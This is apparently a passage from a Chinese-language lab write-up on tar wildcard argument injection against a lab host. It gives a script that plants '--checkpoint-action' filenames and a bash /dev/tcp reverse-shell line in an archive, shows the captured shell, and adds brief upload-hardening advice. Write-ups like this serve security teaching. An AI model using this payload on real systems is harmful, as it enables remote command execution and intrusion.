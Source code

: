 tar用通配符`*`来压缩文件时，会将`*`替换成目录下的文件名称，若是文件名中有tar可识别的参数将会执行该参数。
又或者是解压缩时，如果tar包里面包含有tar可以识别的参数作为文件名，那么也会执行这些参数。

应用场景：

获取普通用户权限后用于提权，此时就可以直接在靶机创建参数文件名文件和相关的提权命令，用通配符进行压缩来利用该漏洞；
需要上传等待对方使用tar解压缩执行命令获取目标Shell的场景。
在本题中需要解压缩时执行命令的情况，这时不能使用通配符作为文件名进行压缩创建tar包，而是在将需要压缩的文件的目录下，在压缩时，使用 `tar -cvf tarfile.tar ./filename1 ./filename2 ...`的格式来压缩文件，或者使用绝对路径来表示文件名进行压缩。
在本题中，如果不使用 ./ 则会在压缩的过程中就会执行命令，因此tar包中是不包含参数文件名的文件，原因是参数文件名文件前面加了 ./ 就不会被认为是参数而是文件名。解压时为什么会执行，因为解压缩时的参数文件名前面是没有 ./ 的，所以解压时，会被当做参数执行？

利用

kali 监听 9001端口

```
nc -lvp 9001
```

shell.sh代码：

```sh
mkdir /home/kali/test
cd /home/kali/test
echo 'bash -i >&/dev/tcp/192.168.56.102/1234 0>&1' > revsh.sh
echo "" > "--checkpoint-action=exec=bash revsh.sh"
echo "" > "--checkpoint=1"
tar -cvf onesh.tar *
```

执行shell.sh：./shell.sh，哦哦，反弹shell连上自己了。

将通配符取消，手动选择文件名，文件名前面要加 ./ ，不然会直接执行命令。

```sh
tar -cvf revshell.tar ./revsh.sh ./'--checkpoint=1' ./'--checkpoint-action=exec=bash revsh.sh'
```

上传，等待几秒，反弹Shell了。

```sh
┌──(kali㉿kali)-[~]
└─$ nc -lvp 9001
listening on [any] 9001 ...
connect to [192.168.56.102] from 192.168.56.103 [192.168.56.103] 35792
bash: cannot set terminal process group (5041): Inappropriate ioctl for device
bash: no job control in this shell
backupper@Bluesmoke:/var/www/html/uploads$ 
```

## 6.**安全修复**

### 6.1.**文件上传修复**

后端验证：针对后端验证的可以采用通过服务器进行验证。

后缀检测：利用黑白名单进行过滤，当然最好是使用白名单，黑名单有时候总归会存在一些未想到的后缀，而白名单就相对简单一点，只需要想放通哪些后缀即可，而且防范更好一些。

